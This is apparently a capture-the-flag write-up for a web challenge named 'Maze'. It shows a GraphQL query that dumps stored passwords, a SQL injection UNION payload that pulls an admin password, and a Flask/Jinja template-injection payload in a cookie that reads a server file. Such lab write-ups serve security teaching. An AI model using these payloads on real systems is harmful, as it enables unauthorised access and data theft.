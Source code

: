 # Maze
We were given the challenge text:
```
maze corparate just started a new trading platform, let's hope its secure because I got all my funds over there

EU instance

US instance

author: pop_eax
```

If you went to the website, you were greeted with a simple login screen, which didn't seem very exploitable. I then checked the robots.txt file, which had the contents `/sup3r_secr37_@p1`.

I went to the path, and was greeted with a GraphQL GUI. After letting the autofill fill in some relevant fields for me, I had the query:
```
query {
  allTraders {
    edges {
      node {
        username
        coins {
          edges {
            node {
              title
              password
            }
          }
        }
      }
    }
  }
}
```

Which gave me the result:

```
{
  "data": {
    "allTraders": {
      "edges": [
        {
          "node": {
            "username": "pop_eax",
            "coins": {
              "edges": [
                {
                  "node": {
                    "title": "XFT",
                    "password": "iigvj3xMVuSI9GzXhJJWNeI"
                  }
                }
              ]
            }
          }
        }
      ]
    }
  }
}
```

I tried logging in with the username `pop_eax` and the password, but it didn't work. I got quite stuck here, but after a while I tried using `XFT` as the username, and it worked. 

![User Authenticated Dashboard](media/user_auth.png)

I clicked on one of the coins, and noticed that all the coins had the same URL, but with different GET query parameters, such as: `/trade?coin=xft`. I assumed that the backend loaded the info about the coin from a database, so I attempted an SQL injection. Similar to [graphed 2.0](../graphed_2) I listed the tables, the important one being `admin`. I then sent the payload `http://207.180.200.166:9000/trade?coin=%27%20%20UNION%20SELECT%20*%20FROM%20admin;%20--` (`' UNION SELECT * FROM admin; --`), and it gave me the password: `p0To3zTQuvFDzjhO9`.

I logged into the admin panel, but there was no flag, I was instead called a skid.

![Admin Panel](media/admin_panel.png)

I looked a bit around in dev tools, and saw that the name `skid` was stored as a cookie. I changed it to something else, and when I refreshed the name was changed. Since the server processed the cookie, I tried template injection. When I changed the `name` cookie to `{{ 7*7 }}`, the server responded with `49`. I then searched for template injections that allowed me to read files, and I found one that worked: `{{ get_flashed_messages.__globals__.__builtins__.open("flag.txt").read() }}`. The response was `flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}`.